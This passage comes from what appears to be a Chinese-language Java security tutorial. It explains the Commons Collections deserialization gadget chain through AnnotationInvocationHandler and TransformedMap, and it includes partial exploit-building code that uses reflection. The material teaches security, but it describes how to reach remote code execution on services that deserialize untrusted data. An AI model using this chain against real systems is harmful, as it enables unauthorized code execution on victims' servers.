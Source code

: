 上述代码向我们展示了只要在Java的API中的任何一个类只要符合以下条件，我们就可以在Java反序列化的时候触发`InvokerTransformer`类的`transform`方法实现`RCE`：

1. 实现了`java.io.Serializable`接口；
2. 并且可以传入我们构建的`TransformedMap`对象；
3. 调用了`TransformedMap`中的`setValue/put/putAll`中的任意方法一个方法的类；



## `AnnotationInvocationHandler`

`sun.reflect.annotation.AnnotationInvocationHandler`类实现了`java.lang.reflect.InvocationHandler`(`Java动态代理`)接口和`java.io.Serializable`接口，它还重写了`readObject`方法，在`readObject`方法中还间接的调用了`TransformedMap`中`MapEntry`的`setValue`方法，从而也就触发了`transform`方法，完成了整个攻击链的调用。

**`AnnotationInvocationHandler代码片段：`**

```java
package sun.reflect.annotation;

class AnnotationInvocationHandler implements InvocationHandler, Serializable {
	
  AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    // 省去代码部分
  }
  
  // Java动态代理的invoke方法
  public Object invoke(Object var1, Method var2, Object[] var3) {
    // 省去代码部分
  }
  
  private void readObject(ObjectInputStream var1) {
  	// 省去代码部分
  }
  
}
```

**`readObject`方法:**

![image-20191220181251898](https://oss.javasec.org/images/image-20191220181251898.png)

上图中的第`352`行中的`memberValues`是`AnnotationInvocationHandler`的成员变量，`memberValues`的值是在`var1.defaultReadObject();`时反序列化生成的，它也就是我们在创建`AnnotationInvocationHandler`时传入的带有恶意攻击链的`TransformedMap`。需要注意的是如果我们想要进入到`var5.setValue`这个逻辑那么我们的序列化的`map`中的`key`必须包含创建`AnnotationInvocationHandler`时传入的注解的方法名。

既然利用`AnnotationInvocationHandler`类我们可以实现反序列化`RCE`，那么在序列化`AnnotationInvocationHandler`对象的时候传入我们精心构建的包含了恶意攻击链的`TransformedMap`对象的序列化字节数组给远程服务，对方在反序列化`AnnotationInvocationHandler`类的时候就会触发整个恶意的攻击链，从而也就实现了远程命令执行了。

**创建`AnnotationInvocationHandler`对象：**

因为`sun.reflect.annotation.AnnotationInvocationHandler`是一个内部API专用的类，在外部我们无法通过类名创建出`AnnotationInvocationHandler`类实例，所以我们需要通过反射的方式创建出`AnnotationInvocationHandler`对象：

```java
// 创建Map对象
Map map = new HashMap();

// map的key名称必须对应创建AnnotationInvocationHandler时使用的注解方法名，比如创建
// AnnotationInvocationHandler时传入的注解是java.lang.annotation.Target，那么map
// 的key必须是@Target注解中的方法名，即：value，否则在反序列化AnnotationInvocationHandler
// 类调用其自身实现的readObject方法时无法通过if判断也就无法通过调用到setValue方法了。
map.put("value", "value");

// 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

// 获取AnnotationInvocationHandler类对象
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```